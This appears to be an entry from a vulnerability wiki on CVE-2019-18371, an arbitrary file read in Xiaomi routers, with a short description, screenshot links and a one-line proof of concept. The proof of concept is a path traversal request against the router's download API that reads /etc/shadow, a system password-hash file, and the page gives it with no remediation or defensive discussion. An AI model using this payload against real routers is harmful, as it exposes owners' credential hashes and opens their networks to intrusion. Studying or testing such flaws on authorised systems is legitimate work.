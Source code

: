 # Xiaomi router extdisks arbitrary file reading vulnerability CVE-2019-18371

## Vulnerability Description

Xiaomi router has a random file reading vulnerability, and attackers can read server sensitive information through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Xiaomi router</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619.png)

Verify POC

```php
/api-third-party/download/extdisks../etc/shadow
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657436392400-dea2fe94-8872-4f73-a405-d2ac6de42eb5.png)